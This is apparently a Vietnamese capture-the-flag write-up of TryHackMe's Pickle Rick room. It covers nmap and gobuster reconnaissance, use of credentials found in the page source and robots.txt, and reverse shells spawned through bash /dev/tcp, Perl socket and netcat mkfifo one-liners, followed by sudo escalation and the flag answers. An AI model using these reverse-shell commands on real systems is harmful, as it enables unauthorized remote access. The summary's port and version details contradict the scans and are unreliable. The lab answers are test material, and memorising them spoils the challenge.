

# Pickle Rick

nay mình giải bài pickle rick trên try hackme

trước tiên mình mở server và dùng openvpn để kết nối với máy ảo




bài có 3 câu hỏi 

ip của server pickle rick là 10.49.167.229

1. Reconnaissance

mình sẽ bắt đầu bằng việc scan tcp và udp cùng với version của bài này.

1A.SCAN TCP port
```
sudo nmap -vv -Pn -T4 -p- -oN TCP-port-scan 10.49.167.229
```
mình sử dụng nmap với :

- -vv là hiện quá trình scan ra ngoài màn hình
- -Pn: bỏ qua ping test, nãy mình có ping và chạy ngon ơ rồi nên bỏ cá này đi chạy cho nó sướng
- -T4: tăng tốc độ scan ( tốc độ scan có mức độ tăng dần từ t0 đến t5)
- -p- scan full port
- -oN TCP-port-scan xuất kết quả ra file này


mình quét và thấy server mở mỗi port 80(http) và 22(ssh)

như vậy là maybe ta có thể ssh vào hoặc lấy reverse shell

mình ssh admin@10.49.167.229 nma không đc

1B.SCAN UDP port
```
sudo nmap -vv -Pn -T4 -sU -oN -UDP-port-scan 10.49.167.229
```
trong đó:

- -vv là hiện quá trình scan ra ngoài màn hình
- -Pn bỏ qua ping test
- -T4: tăng tốc dộ scan
- -sU : quét udp
- -oN -UDP-port-scan: xuất kqua ra file này

udp gần như là no response full nên có vẻ mình ko thể lấy được gì hữu dụng từ đây

1C.SCAN version 
```
sudo nmap -vv -Pn -T4 -sV  -p 22,80 -O 10.49.167.229
```
Trong đó:

- - sV : version
- -p : port
- -O: chạy os nào


1D quét thư mục

gobuster dir -u 10.49.167.229 -w common-web-content.txt -x txt,php,py,sh -t 20

Trong đó:

- **gobuster:** tên lệnh
- **dir:** chế độ tìm file ẩn
- **u:** url của server nạn nhân
- **w:** tên wordlist cần dùng
- **x:** những extension muốn tìm (thường với website linux sẽ là txt, php, php5, py, rb, pl, sh)
- **t:** số threads chạy trong 1 giây

gô bút tơ


KẾT LUẬN

sau khi quét full thì ta có những ttin sau

- mở port 20, 88
- sử dụng hdh ubuntu 20.04 và apache 2.4.11
- và 1 số thư mục

2.Exploit

vì server đang mở http nên mình truy cập vào  web bằng firefox


mình ctrl u xem src page và thấy tên login


R1ckRul3s

Sau đó mình thử truy cập robots.txt


khả năng nó là passwd nên mình qua login.php và đăng nhập thành công


như vậy , bài cho chúng ta command panel , mình test ls -la và nó hoạt động


thấy first ingredient kia rồi nma mình không thể xem đc


nên mình quyết định lấy reverse shell

ban đầu mình sử dụng sudo nc -nlvp 8888 để mở cổng 8888 ở máy mình

sau đó vào web để kết nối vào máy mình bằng 1 số lệnh sau
```
`BASH`

`bash -i >& /dev/tcp/<hacker-ip>/<hacker-port> 0>&1`

`PERL`

`perl -e 'use Socket;$i="<hacker-ip>";$p=<hacker-port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

`NETCAT (NC)`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <hacker-ip> <hacker-port> >/tmp/f`

mình có nc mà không đc nên mình dùng perl

`perl -e 'use Socket;$i="192.168.180.225";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
```
à mình dùng ip a để check ip của mình và là 192.168.180.225


ngon rồi


thế là có first ingredient

giờ mình pwd và whoami để xem tài khoản của mình là gì


www-data là tài khoản người dùng

và đang ở html


tìm ở các file khác

mình qua / để xem


vô thấy usr khả nghi nên vô xem thử nma ko có gì

sau mình vô home và thấy 2 user


mình vô rick và thấy second ingredient

Tiếp đến, mình sudo -l để kiểm tra xem account của mình có thể sử dụng được những công cụ nào 


Như vậy, account của mình có quyền sử dụng bất kỳ công cụ và câu lệnh nào đang có trên server Pickle Rick mà không cần phải cung cấp password của account hiện tại hoặc password của account root. Dựa vào đây, mình có thể lấy được 3rd ingredient


**ANSWER:**

Q1: mr. meeseek hair

Q2: 1 jerry tear

Q3: fleeb juice

